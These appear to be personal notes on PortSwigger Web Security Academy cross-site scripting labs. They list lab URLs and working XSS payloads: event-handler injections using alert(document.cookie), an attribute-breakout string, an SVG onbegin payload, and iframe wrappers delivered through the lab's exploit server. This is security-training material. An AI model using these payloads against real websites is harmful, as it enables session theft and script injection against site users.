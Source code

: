 
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked
 - `<tag style='font-weight:bold;'>Data</tag>` works
 - `<iframe id='myFrame' src="https://acbe1f151f632a73c0c539c0006c00d8.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" onload='document.getElementById("myFrame").width = "400"'>`, store and run in the exploit server


`<xss id='x' tabindex=1 autofocus onfocus='alert(document.cookie);'> </xss>`
`<iframe autofocus id='myFrame' width="1000" height="1000" src="https://ac821f731ee8c8dbc025506100a80063.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D1#x" onload=''>`


https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded

https://ac721f721f272809c07a4bb3001000ed.web-security-academy.net/?search=%3Cscript%3Eprint%28%29%3B%3C%2Fscript%3E

Source code

```html
<section class=blog-header>
    <h1>0 search results for '&lt;script&gt;print();&lt;/script&gt;'</h1>
    <hr>
</section>
<section class=search>
    <form action=/ method=GET>
        <input type=text placeholder='Search the blog...' name=search value="&lt;script&gt;print();&lt;/script&gt;">
        <button type=submit class=button>Search</button>
    </form>
</section>
```

Final Payload

```
" autofocus onfocus=alert(document.domain) x='
```


https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed

Just tried and error all svg tags

```
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded
